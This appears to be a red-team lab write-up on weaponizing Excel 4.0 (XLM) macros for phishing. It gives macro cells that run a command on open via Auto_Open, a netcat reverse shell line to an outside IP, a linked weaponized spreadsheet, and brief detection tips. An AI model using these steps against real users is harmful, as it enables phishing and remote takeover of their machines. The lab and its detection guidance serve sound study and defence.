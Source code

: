 ```yaml
---
layout: post
title: "phishing xlm macro 4.0"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /phishing-xlm-macro-4.0/
---
```


---
layout: post
title: "phishing xlm macro 4.0"
date: 2024-06-18
categories: phishing-with-ms-office
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /phishing-xlm-macro-4.0/
---

# Phishing: XLM / Macro 4.0

This lab is based on the research performed by [Stan Hegt from Outflank](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/).

## Weaponization

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](../../../.gitbook/assets/phishing-xlm-create-new.png)

We can then execute command by typing into the cells:

```text
=exec("c:\shell.cmd")
=halt()
```

As usual, the contents of shell.cmd is a simple netcat reverse shell:

{% code title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](../../../.gitbook/assets/phishing-xlm-auto-open.png)

{% file src="../../../.gitbook/assets/excel-4.0-macro-functions-reference-1.pdf" caption="Excel 4.0 Macro Functions Reference.pdf" %}

{% file src="../../../.gitbook/assets/phishing-xlm.xlsm" caption="XLM Phishing.xlsm" %}

## Execution

Opening the document and enabling Macros pops a reverse shell:

![](../../../.gitbook/assets/phishing-xlm-shell-auto-open.gif)

Note that XLM Macros allows using Win32 APIs, hence shellcode injection is also possible. See the original research link below for more info.

## Observations

As usual, look for any suspicious children originating from under the Excel.exe:

![](../../../.gitbook/assets/phishing-xlm-procexp.png)

Having a quick look at the file with a hex editor, we can see a suspicious string `shell.cmd` immediately, which is of course good news for defenders:

![](../../../.gitbook/assets/phishing-xlm-hex.png)

![](../../../.gitbook/assets/phishing-xlm-strings.png)

## References

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/" %}

@spotheplanet

